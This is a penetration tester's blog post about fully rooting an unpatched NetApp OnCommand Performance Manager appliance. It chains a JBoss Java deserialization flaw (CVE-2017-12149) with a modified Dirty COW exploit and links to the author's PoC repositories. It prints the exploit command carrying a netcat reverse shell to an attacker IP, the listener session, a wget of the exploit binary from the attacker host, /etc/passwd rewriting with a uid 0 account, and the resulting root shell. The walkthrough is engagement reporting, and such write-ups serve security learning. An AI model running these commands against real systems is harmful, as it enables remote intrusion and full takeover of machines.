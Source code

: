 ```yaml
---
layout: post
title: Deserialized Double Dirty
categories: [pentest, exploits]
tags: [java, deserialization, jboss, dirtycow, privilege escalation]
comments: true
---
```

Recently I was able to fully root an NetApp OnCommand Performance Manager appliance using a Java Deserialization vulnerability and Dirty Cow.  

Disclaimer: NetApp has security patches for both of these issues. This appliance simply had not been updated.

Late last year I ran into a device that was vulnerable to [CVE-2017-12149](https://nvd.nist.gov/vuln/detail/CVE-2017-12149) and was able to get a shell on that device. After using [Ysoserial](https://github.com/frohoff/ysoserial) and loading in the payloads in Burp Repeater (pro tip from @hateshaped: right click -> paste from file), I wanted to automate the building and delivery of the payload. I knew @byt3bl33d3r had a quite a few of these scripts on [Coalfire Lab's Github](https://github.com/Coalfire-Research/java-deserialization-exploits) so I modified a similar JBoss script for this specific vulnerability. The PoC can be found [here](https://github.com/jreppiks/CVE-2017-12149.git)

So when this popped up again, I was super excited. The system had a "modern" version of netcat, so ```nc -e``` worked just fine to grab a shell. 
```
python jdspoc.py --proto http --ysoserial-path ./ysoserial.jar 10.10.193.110:80 'nc -ne /bin/bash 192.168.3.230 8000'
```
This time, however, the admin (or perhaps NetApp) had done something right, the application was not running as root, but a low privilege user. 
```
 nc -lvp 8000
listening on [any] 8000 ...
192.168.193.110: inverse host lookup failed: Unknown host
connect to [192.168.3.230] from (UNKNOWN) [10.10.193.110] 34503
id
uid=998(jboss) gid=42(shadow) groups=1002(jboss),42(shadow)
```
While doing some enumeration, uname came back with the following:
```
Debian 3.2.68-1+deb7u1
```
Ripe for Dirty COW! The Dirty COW exploit I'm most familiar with is [Firefart's exploit](https://github.com/FireFart/dirtycow.git). It's stable and it works. I ran the exploit and it created the firefart user with no issues, but this is where it got interesting.

Typical "firefartage" one does ```su - firefart``` or ssh firefart@<ip>. However, I could not upgrade my shell to a TTY shell (I'm sure I'm saying that wrong...). I could not ```su -``` since I didn't have a "real" terminal. I tried all the usual tricks (e.g. [Pentest Monkey's awesomeness] (http://pentestmonkey.net/blog/post-exploitation-without-a-tty) and [Ropnop's great blog] (https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)) but not even stackoverflow could help me out! 
  
SSH was also a bust. The ssh server on the system was set up so only members of the maintenance group could log in and it could not be a root user. I decided to modify Firefart's code and make the firefart user an non-root user and add them to the maintenace group. I ran the exploit and it created the user! I was now able to ssh into the device. I was still not root, though. So, I ran the original exploit again thinking I could then just ```su - firefart```. When I tried that, it failed with an error: ```I have no name!``` 

Even, running the script twice with two different usernames ended in the same error. I decided I needed to modify the exploit code again to add both users at the same time. You can grab the modified code I lovingly named doubledirty [here](https://github.com/jreppiks/doubledirty.git) Please be kind, I am not a developer, but it complied and ran on the very first time, that has to count for something, right?!

I grabbed the new exploit code and ran it on the system:
```
jboss@netapp:/tmp$ wget 192.168.3.230:8080/doubledirty
wget 192.168.3.230:8080/doubledirty
--2019-08-16 14:28:23--  http://192.168.3.230:8080/doubledirty
Connecting to 192.168.3.230:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 18200 (18K) [application/octet-stream]
Saving to: `doubledirty'

     0K .......... .......                                    100% 30.4M=0.001s

2019-08-16 14:28:23 (30.4 MB/s) - `doubledirty' saved [18200/18200]

jboss@netapp:/tmp$ ls -ltr
ls -ltr
total 696
drwx------ 2 root  root          4096 Feb  8  2016 vmware-root
-rw-r--r-- 1 root  root           654 Feb  8  2016 netapp-opm-postinst.log
-rw-r--r-- 1 jboss shadow       18200 Aug 16 14:27 doubledirty
jboss@netapp:/tmp$ chmod +x doubledirty
chmod +x doubledirty
jboss@netapp:/tmp$ ./doubledirty
./doubledirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Complete line:

jreppiksroot:2fe7ebe7ff742bf25fd67824bfed403a:0:0:pwned:/root:/bin/bash
jreppiks:2fe7ebe7ff742bf25fd67824bfed403a:14:1000:pwned:/root:/bin/bash
```

I was able to ssh in as the non-priveledged user and then su - to the root user!
```
# ssh jreppiks@10.10.193.110
Password: 
Linux netapp 3.2.0-4-amd64 #1 SMP Debian 3.2.68-1+deb7u1 x86_64
Last login: Fri Aug 16 11:48:49 2019 from 192.168.3.230
Could not chdir to home directory /root: Permission denied
-bash: /root/.bash_profile: Permission denied
jreppiks@netapp:/$ id
uid=14(jreppiks) gid=1000(maintenance) groups=1000(maintenance)
jreppiks@netapp:/$ su - jreppiksroot
Password: 
jreppiksroot@netapp:~# id
uid=0(jreppiksroot) gid=0(root) groups=0(root)
jreppiksroot@netapp:~# 
```
